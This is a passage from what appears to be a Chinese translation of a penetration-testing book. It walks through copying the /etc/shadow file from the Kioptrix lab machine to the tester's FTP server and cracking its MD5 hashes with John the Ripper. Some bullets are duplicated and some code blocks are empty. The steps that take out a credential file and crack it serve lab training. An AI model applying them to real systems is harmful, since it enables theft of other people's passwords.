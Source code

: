     ```

    ```
    Password: password 

    ```

    ```
    put shadow 

    ```

    ```
    ls
    exit

    ```

    *   移动到/etc 目录。记住，您不会从受害者机器收到太多反馈。
    *   您应该看到 Kioptrix/etc 目录的目录列表。
    *   输入我们在回溯机器（ftplogin）上的 FTP 服务器上创建的用户名。
    *   输入 FTP 服务器帐户的密码。请稍等片刻，然后键入：
    *   请稍等片刻，然后键入：
    *   您应该会看到目标 FTP 站点的目录列表。
6.  *CTRL + Q* will get you out of the Kioptrix machine.

    ### 注

    您也可以简单地执行 `cat shadow`并用鼠标复制屏幕输出。但是，了解如何从目标计算机中提取文件非常重要，尤其是当文件非常大时。

现在我们的回溯机上有了阴影文件，让我们看看我们能用它做些什么。

```
# cd /pentest/passwords/john 

```

一旦我们浏览到正确的目录，我们就可以根据 Kioptrix 阴影文件启动 john：

```
# john /var/public/shadow 

```

John 将开始尝试 MD5 密码的暴力尝试。

```
Loaded 3 password hashes with 3 different salts (FreeBSD MD5 [32/64 X2])

```

### 注

如果您运气好或非常有耐心，您将获得目标机器的未加密密码作为奖励。根据所使用的密码复杂性以及系统的速度，此步骤可能需要几分钟到几周的时间才能完成。有第三方服务可用于破解密码，但由于您无法控制发送给第三方的任何数据，因此必须在您的参与规则中明确允许使用这些服务。

## 暴力强制密码
